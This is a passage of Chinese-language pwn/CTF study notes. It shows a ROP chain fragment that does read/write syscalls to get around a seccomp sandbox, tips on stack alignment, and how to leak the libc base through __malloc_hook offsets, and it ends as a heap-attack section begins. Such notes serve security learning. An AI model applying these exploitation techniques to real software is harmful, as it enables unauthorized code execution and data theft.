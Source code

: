 ````python
    pop_rdi_ret_addr,
    3,
    pop_rsi_ret_addr,
    heap_base,
    pop_rdx_ret_addr,
    0x100,
    pop_rax_ret_addr,
    0,
    syscall_ret_addr,   #read
    # read_addr,
    pop_rdi_ret_addr,
    1,
    pop_rsi_ret_addr,
    heap_base,
    pop_rdx_ret_addr,
    0x100,
    pop_rax_ret_addr,
    1,
    syscall_ret_addr   #write
    # write_addr,
    ])

```
open 函数想要使用的话就必须要使用syscall来实现，这样才能绕过沙箱，直接使用open函数的话会有一些其他的系统调用（open_at系统调用）从而被沙盒拦截。
```

```
写函数尽量用write函数而不是使用printf函数，因为在高版本libc中，使用printf函数开头会有一句汇编语句：
movaps xmmword ptr [rsp + 0x40], xmm0
这个浮点汇编语句中要求 rsp + 0x40 的结果必须是 0x10对齐的，这也是很多exp中出现的使用 return 语句进行栈对齐的原因。比较麻烦，所以尽量不用。
```

````
##### ⑩①.  main_arena 泄露libc基地址
```python
#整半天才发现，原来main_arena是个黑话啊！在glibc中是找不到这个名字的，所以怎么办呢？
#其实很简单，用__malloc_hook去做不就完了，其中 &main_arena = &__malloc_hook + 0x10

libc_base = u64(sh.recv(6).ljust(8,b'\x00')) - libc.symbols["__malloc_hook"] - 0x60 - 0x10

#这个0x60就是 unsorted_bin 相对于 main_arena 首部的偏移。
```



#### 5. 堆学习知识点
-----

>堆攻击其实解决了一个很关键的问题——如果无法修改got表应该怎么办？
>其实就是利用钩子函数（hook函数）而我们常见的能利用的hook函数就是__malloc_hook和__free_hook，由此和堆攻击产生了密切的联系。


##### ①. house of force
